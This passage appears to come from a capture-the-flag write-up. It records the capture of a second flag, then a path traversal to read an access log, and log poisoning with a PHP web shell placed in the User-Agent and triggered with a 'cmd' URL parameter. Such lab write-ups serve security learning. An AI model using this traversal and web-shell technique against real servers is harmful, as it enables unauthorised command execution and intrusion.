 ![Pasted image 20250729141126.png](../../2%20-%20Resources/Others/Flameshots/Pasted%20image%2020250729141126.png)

And we also have the **==second flag==**.

Apparently we have to escape with ..//..// and stay in the same folder (development_testing), we can try to retrieve the access logs file this way :

![Pasted image 20250729120001.png](../../2%20-%20Resources/Others/Flameshots/Pasted%20image%2020250729120001.png)

So now we know the User-Agent is in the file, we can try to put [php](../../3%20-%20Tags/Programming%20Languages/php.md) code in there and see if it's executed : `<?php system($_GET['cmd']); ?>`
And we add this to the URL : `&cmd=whoami` :
